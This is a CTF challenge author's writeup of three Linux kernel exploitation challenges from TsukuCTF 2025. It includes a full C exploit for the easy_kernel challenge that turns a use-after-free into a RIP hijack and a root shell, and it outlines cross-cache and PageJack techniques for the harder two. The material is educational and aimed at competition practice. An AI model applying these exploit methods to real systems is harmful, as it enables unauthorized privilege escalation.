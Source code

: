 ```yaml
---
title: TsukuCTF 2025 Writeup
date: 2025-05-04
categories: [CTF]
tags: [linux, pwn, ctf]
---
```

At [TsukuCTF 2025](https://tsukuctf.org/), I made three kernel pwn challenges. It was my first time making CTF problems, but there were no big problems (i.e., no unintended solutions), and I also received positive feedback from the players, so I'm happy with the result. When creating the challenges, I focused on removing unnecessary complexity and designing problems that would help participants learn something new. To support this, I provided the full source code for all challenges (i.e., no reversing), a vmlinux with debug symbols, and an uploader for submitting exploits to the challenge server. I hope you enjoyed them.

I will briefly go over each challenge below. The bugs and how to exploit them are explained in my blog series [*Linux Kernel Exploitation*](https://r1ru.github.io/categories/linux-kernel-exploitation/), so here I'll mainly explain the ideas behind each challenge and give some advice for beginners.

## easy_kernel (medium, 12 solves)
This challenge was originally created as an easy one (though I changed its difficulty just before the CTF). The bug is in `obj_free`, where the pointer `obj`, which points to a freed memory region, is not cleared:
```c
static long obj_free(void) {
    kfree(obj);
    return 0;
}
```
This results in an obvious UAF. Since we already have read and write primitives, and the victim object is allocated from kmalloc-32, we can easily control RIP by using `struct seq_operations`, which is also allocated from kmalloc-32. Since SMAP, SMEP, KASLR and KPTI are disabled,  we can achieve root privileges simply by executing `commit_creds(&init_creds)` in user space:
```c
#include <stdio.h>
#include <assert.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <unistd.h>

#define CMD_ALLOC   0xf000
#define CMD_WRITE   0xf001
#define CMD_FREE    0xf002

typedef struct {
    size_t size;
    char *data;
} request_t;

int fd;

void obj_alloc() {
    request_t req = {};
    assert(ioctl(fd, CMD_ALLOC, &req) == 0);
}

void obj_write(char *data, size_t size) {
    request_t req = {.size = size, .data = data};
    assert(ioctl(fd, CMD_WRITE, &req) == 0);
}

void obj_free() {
    request_t req = {};
    assert(ioctl(fd, CMD_FREE, &req) == 0);
}

unsigned long user_cs, user_ss, user_rsp, user_rflags;

void save_state() {
    asm volatile (
        "movq %0, cs\n"
        "movq %1, ss\n"
        "movq %2, rsp\n"
        "pushfq\n"
        "popq %3\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rsp), "=r"(user_rflags)
        : 
        : "memory"
    );
}

void win() {
    char *argv[] = { "/bin/sh", NULL };
    execve("/bin/sh", argv, NULL);
}

void restore_state() {
    asm volatile(
        "swapgs\n"
        "movq [rsp + 0x00], %0\n"
        "movq [rsp + 0x08], %1\n"
        "movq [rsp + 0x10], %2\n"
        "movq [rsp + 0x18], %3\n"
        "movq [rsp + 0x20], %4\n"
        "iretq\n"
        :
        : "r"(win), "r"(user_cs), "r"(user_rflags), "r"(user_rsp), "r"(user_ss)
    );
}

#define addr_init_cred      0xffffffff81e3bfa0
#define addr_commit_creds   0xffffffff812a1050

void escalate_privilege() {
    void (*commit_creds) (void *) = (void *)addr_commit_creds;
    commit_creds((void *)addr_init_cred);
    restore_state();
}

int main(void) {
    save_state();
    
    fd = open("/dev/vuln", O_RDONLY);
    assert(fd != -1);

    puts("[*] Allocating the victim object");
    obj_alloc();
    obj_free();

    puts("[*] Allocating struct seq_operations to reclaim the memory");
    int seqfd = open("/proc/self/stat", O_RDONLY);
    assert(seqfd != -1);

    puts("[*] Hijacking RIP");
    char payload[0x8];
    *(unsigned long *)&payload = (unsigned long)escalate_privilege;
    obj_write(payload, sizeof(payload));

    read(seqfd, payload, 1);
}
```
Note that we have to use `commit_creds(&init_creds)` insted of `commit_creds(prepare_kernel_cred(NULL))` since, from version 6.2, we cannot pass `NULL` to `prepare_kernel_cred`:
```c
// https://elixir.bootlin.com/linux/v6.2/source/kernel/cred.c#L717-L718
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
    ...
    if (WARN_ON_ONCE(!daemon))
        return NULL;
```
To solve this challenge, you need to understand how to use UAF for privilege escalation. If you are a beginner in kernel pwn, I recommend studying through [pawnyable](https://pawnyable.cafe/linux-kernel/).

## xcache (hard, 5 solves)
As the name suggests, the theme of this challenge is a cross-cache attack. As in the easy_kernel challenge, there is an obvious UAF, but in `obj_alloc` and `obj_free`, `kmem_cache_zalloc` and `kmem_cache_free` are used respectively, meaning that a dedicated cache is being used:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
However, the other parts (i.e., the available commands and enabled security mechanisms) are the same. Therefore, if we can place the victim objects in kmalloc-32, the attack script above can be used as is. To achieve this, cross-cache attack is required. For a detailed explanation, please refer to [this article](https://r1ru.github.io/posts/1/).

The reason I created this challenge is that cross-cache attack is a fundamental technique in modern kernel exploitation. If you want to learn about advanced techniques such as [Dirty PageTable](https://r1ru.github.io/posts/2/) and [DirtyCred](https://r1ru.github.io/posts/3/), understanding cross-cache attacks is a good place to start.

## new_era (very hard, 4 solves)
Unlike the other challenges, this one is extremely hardened (i.e., in addition to SMAP, SMEP, KASLR, and KPTI, additional kernel configurations like CONFIG_CFI_CLANG and CONFIG_STATIC_USERMODEHELPER are also enabled.) To escalate privileges, we need to exploit the obvious off-by-one bug in `obj_write`:
```c
static long obj_write(char *data, size_t size) {
    if (obj == NULL || size > OBJ_SIZE) {
        return -1;
    }
    if (copy_from_user(obj->buf, data, size) != 0) {
        return -1;
    }
    obj->buf[size] = '\0';
    return 0;
}
```
The intended solution is Pagejack. By using the off-by-one bug, we can overwrite the `page` member of a `struct pipe_buffer`, which leads to a page UAF. After this, there are various ways to proceed, but my approach is to overwrite the `f_mode` member of the `struct file` for /etc/passwd and overwrite it. For a detailed explanation, please refer to [this article](https://r1ru.github.io/posts/6/).

The inspiration for creating this challenge came from the [BlackHat presentation](https://youtu.be/uZW9RbZaq6A?si=LHH6rNlDy63fZVx7) about PageJack. Initially, I planned to enable CONFIG_MEMCG and use an cross-cache off-by-one bug, but I decided not to, since I though it would be too dificult.

## Conclusion
The number of solves for easy_kernel was much lower than I had expected (perhaps because TsukuCTF was announced as a CTF focusing mainly on OSINT?). As for new_era, I was bracing myself for zero solves, but to my surprise, it was solved within just 2 hours! I hope you enjoyed my challenges and learned something new. Feel free to ask any questions or provide feedback.